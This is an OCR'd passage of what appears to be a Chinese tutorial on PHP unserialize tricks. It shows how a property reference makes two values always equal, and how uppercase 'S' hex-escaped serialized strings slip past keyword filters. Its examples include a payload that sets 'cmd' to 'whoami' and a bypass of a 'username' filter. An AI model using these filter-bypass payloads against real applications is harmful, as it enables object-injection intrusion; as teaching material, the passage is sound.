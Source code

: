 #### 2.3. 利用引用

```php
<?php
class test{
    public $a;
    public $b;
    public function __construct(){
        $this->a = 'abc';
        $this->b= &$this->a;
    }
    public function  __destruct(){

        if($this->a===$this->b){
            echo 666;
        }
    }
}
$a = serialize(new test());
```

上面这个例子**将 b 设 置 为a的引用**，可以使 a 永 远 b相等

#### 2.4. 利用 16 进制绕过过滤

**将示意字符串的s改为大写S时，其值会解析 16 进制数据**

例如：O:4:"Test":1:{s:3:"cmd";**s**:6:"whoami";}

可改为：O:4:"Test":1:{S:3:"\63md";**S**:6:"\77hoami";}

**example：**

```php
<?php
class test{
    public $username;
    public function __construct(){
        $this->username = 'admin';
    }
    public function  __destruct(){
        echo 666;
    }
}
function check($data){
    if(stristr($data, 'username')!==False){
        echo("你绕不过！！".PHP_EOL);
    }
    else{
        return $data;
    }
}
// 未作处理前 无法绕过
$a = 'O:4:"test":1:{s:8:"username";s:5:"admin";}';
$a = check($a);
unserialize($a);
// 做处理后 \75是u的16进制   可以绕过
$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';
$a = check($a);
unserialize($a);
```
